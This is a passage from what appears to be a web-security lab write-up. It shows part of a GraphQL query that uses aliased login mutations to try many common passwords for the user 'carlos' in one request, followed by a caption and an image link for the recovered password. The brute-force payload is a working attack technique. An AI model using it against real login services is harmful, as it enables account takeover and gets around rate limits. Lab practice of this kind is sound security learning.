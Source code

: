 ```
        token
        success
    }
    bruteforce93: login(input: { password: "mobilemail", username: "carlos" }) {
        token
        success
    }
    bruteforce94: login(input: { password: "mom", username: "carlos" }) {
        token
        success
    }
    bruteforce95: login(input: { password: "monitor", username: "carlos" }) {
        token
        success
    }
    bruteforce96: login(input: { password: "monitoring", username: "carlos" }) {
        token
        success
    }
    bruteforce97: login(input: { password: "montana", username: "carlos" }) {
        token
        success
    }
    bruteforce98: login(input: { password: "moon", username: "carlos" }) {
        token
        success
    }
    bruteforce99: login(input: { password: "moscow", username: "carlos" }) {
        token
        success
    }
}
```



Our password
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/fdcd52a4-f2d2-405a-b49a-7a708deb9e02)


